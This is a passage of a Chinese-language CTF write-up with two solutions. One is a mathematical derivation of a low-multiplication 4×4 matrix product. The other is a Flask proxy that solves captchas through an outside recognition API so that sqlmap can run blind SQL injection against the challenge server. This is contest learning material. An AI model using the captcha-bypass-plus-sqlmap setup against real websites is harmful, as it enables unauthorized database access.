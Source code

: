 ```python
open('res.txt', 'w').write(res)
```

## 矩阵之困

分析一下这坨式子，可以发现，假如把 `data` 写成三个 $16\times 48$ 的矩阵 $A,B,C$，那么就是要求 $\left| a_{4i+j}\cdot b_{4j+k}\cdot c_{4i+k}\right|=1$，而其他的 $\left|a_x\cdot b_y\cdot c_z\right|$ 都是 $0$。

这也就意味着，对于三个 $4\times 4$ 的矩阵 $D,E,F$，设
$$
\begin{align*}
x_{u}&=\sum_{i,j} d_{i,j}a_{4i+j,u}\\
y_{u}&=\sum_{j,k} e_{j,k}b_{4j+k,u}\\
\text{Let }f_{i,k}&=\sum_u c_{4i+k,u}x_uy_u
\\&=
\sum_u c_{4i+k,u}\sum_{i',j_0}d_{i',j_0}a_{4i'+j_0,u}\sum_{j_1,k'}e_{j_1,k'}b_{4j_1+k',u}
\\&=\sum_{i',j_0}\sum_{j_1,k'}d_{i',j_0}e_{j_1,k'}\sum_u a_{4i'+j_0,u}b_{4j_1+k',u}c_{4i+k,u}
\\&=\sum_{i',j_0}\sum_{j_1,k'}d_{i',j_0}e_{j_1,k'}\left| a_{4i'+j_0}\cdot b_{4j_1+k'}\cdot c_{4i+k}\right|
\\&=\sum_{i',j_0}\sum_{j_1,k'}d_{i',j_0}e_{j_1,k'}\left[i=i'\text{ and }k=k'\text{ and }j_0=j_1\right]
\\&=\sum_j d_{i,j}e_{j,k}
\end{align*}
$$
即 $F=DE$，而我们只需要求 $x_uy_u$ 这样的乘法，也就是用 48 次乘法完成了这个 $4\times 4$ 的矩乘。

搜索到 https://math.stackexchange.com/questions/578342/number-of-elementary-multiplications-for-multiplying-4x4-matrices，但是第一条回答不能直接用，因为他涉及了一个矩阵内部元素的乘法。

而下面第二条回答给出了一个仅需 47 次乘法的新研究，并且还给出了一个和题目所需的格式基本相同的 01 矩阵。稍微变换一下即可提交。

## 你先别急

手动测试可以发现，没 select 到东西就会变成最高难度的验证码。

可以接入一个验证码识别 api，然后包装一下他的服务，就能用 sqlmap 扫了。

```python
import base64, requests
from flask import Flask, request


def checkcode(s):
    header = {'Authorization': 'xxx'}
    data = {
        'img_base64': s,
    }
    return requests.post('https://xxx', headers=header, json=data).json()['data']['yzm']


header = {
    'Cookie': 'xxx',
}

app = Flask(__name__)


@app.route('/qry')
def qry():
    username = request.values.get('username')
    data = {'username': username}
    r = requests.post('http://202.38.93.111:11230/captcha', headers=header, data=data).json()
    open('r.png', 'wb').write(base64.b64decode(r['result']))
    t = checkcode(r['result'])
    return str(sum(u in '0123456789' for u in t) >= 5)
```